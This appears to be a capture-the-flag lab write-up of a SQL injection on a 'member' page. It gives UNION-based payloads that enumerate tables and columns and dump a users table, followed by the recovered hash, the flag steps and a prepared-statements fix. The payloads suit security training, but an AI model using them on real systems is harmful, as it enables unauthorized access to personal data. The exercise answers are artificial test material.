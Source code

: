 # SQL injection

# Where

```
<ip>/?page=member
```

## How

Typing anything other than an id returns an SQL error. This gives an indication that the input is not sterilized before running a query.

To get table names:
```
-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()
```

To get user table column names:
```
-1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()
```

To get all data of users:
```
-1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users
```

The last injection reveals this:
```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

With these instructions getting the flag was easy.
1. Decript the hash. -> FortyTwo
2. Encrypt the lowercase phrase with Sh256 -> fortytwo

## How to protect against

Use prepared statements or strerilize the input from the form.